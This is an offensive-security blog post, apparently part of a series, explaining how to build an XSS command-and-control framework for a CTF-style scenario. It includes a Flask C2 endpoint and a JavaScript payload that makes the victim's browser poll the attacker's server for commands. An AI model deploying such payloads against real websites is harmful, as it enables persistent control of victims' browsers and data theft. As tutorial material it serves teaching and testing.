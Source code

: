 ```yaml
---
layout: post
title:  "Offensive XSS 3: C2"
date:   2022-04-20 18:05:55 +0300
image:  OffensiveXSS3/title.jpg
author-name: strik1r
tags:   [XSS, data extraction, Exploit via XSS]
---
```


<h2>Prologue:</h2>
In this blog post we will start our offensive operations using XSS and upgrade what we created in the previous posts. We are currently capable of uploading files, downloading different data from the victim etc. However for each operation we need to clear our previous XSS payload, inject a new payload, then wait for the victim to trigger our XSS payload. In this blog post let's try to fix that issue by making sure multiple executions are not necessary. We will be creating building blocks for our SeXSSy-C2 framework which will be released after our blog posts. 
<br>
<h3>Problem Statement</h3>
Assuming we have a usual CTF scenario where the admin only clicks our payload embedded link every one hour or so. It is super time consuming to wait for hours on the end to get the payload right. We understand that all we need is a single right execution and from there on we need to have a script that is capable of capturing and uploading data without any modifications.
<br>

<h2>SeXSSy-C2 - First Jab v0.0.0</h2>
Well, the initial idea is to create an endpoint that will return arbitrary value other than an empty string then invoke it. Our idea is to create an asychronous C2 connection with our victim which will check back-in time to time. We're gonna implement async functions for the same. This automatically decreases our need for victim's interaction to trigger the payload everytime we want an execution. So here's the initial code for the same:
<br>
```
@app.route("/command", methods=['POST'])
def command():
    return "command=test"
```
<br>
XSS Script to invoke it:
<br>
```
commandUrl = "http://127.0.0.1:5000/command"
async function getCommand() {
    let response = await fetch(commandUrl,{
        headers: 
        {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
    })
    let text = await response.text()
    console.log(text)
}
getcommand()

```
Understanding the above script in detail. We are creating an async function so that this command request will not block the script while we wait for the response. With the "await" we're letting the JavaScript execution know that this part needs to wait until the response is fetched. Post that we will wait for the response.text and  write the result to the console. Let's run it and see what happens.
